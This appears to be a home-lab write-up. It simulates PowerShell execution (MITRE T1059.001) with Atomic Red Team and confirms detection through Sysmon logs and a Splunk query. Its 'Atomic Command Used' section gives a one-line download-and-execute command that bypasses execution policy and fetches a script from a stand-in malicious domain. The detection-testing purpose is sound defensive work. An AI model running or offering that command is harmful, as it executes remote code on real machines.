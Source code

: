 # T1059.001 – PowerShell Execution

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🎯 Objective

* Simulate a real-world PowerShell-based attack
* Confirm Sysmon logs command line activity (Event ID 1)
* Verify detection in Splunk via search queries

---

## 🧪 Atomic Command Used

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This PowerShell command reflects a common technique used by attackers to download and execute remote code.

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* Sysmon Event ID 1 logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Suspicious PowerShell usage
* Base64 encoded or obfuscated strings
* Unexpected external IPs or domains

> 🔎 **Correlating with Event ID 4624**:
> Logon Event ID 4624 is useful to confirm which user account initiated the session during which the suspicious PowerShell was executed. By cross-referencing this with Event ID 1 from Sysmon, analysts can gain timeline context and user attribution.

---

## ✅ Result

* PowerShell execution logged by Sysmon (Event ID 1)
* Event successfully forwarded to Splunk
* Detection via query confirmed visibility

---

## 📸 Screenshots

### 1. Atomic Red Team Inference 
![PowerShell Attack](../screenshots/t1136.002.PNG)


### 2. PowerShell Line:

![PowerShell Attack](../screenshots/sheline.PNG)

### 2. Atomic Red Team payload being triggered:

![PowerShell Attack](../screenshots/T1059.001%20attack.PNG)

### 3. Splunk search showing detection:

![Search Shows](../screenshots/the%20success.PNG)

### 4. Powershell search showing detection:

![Log Entry](../screenshots/we%20can%20search%20powershell%20as%20well%20to%20see.PNG)

### 3. Log entry with PowerShell payload:

![Payload](../screenshots/what%20to%20look%20for%20in%20powershell.PNG)
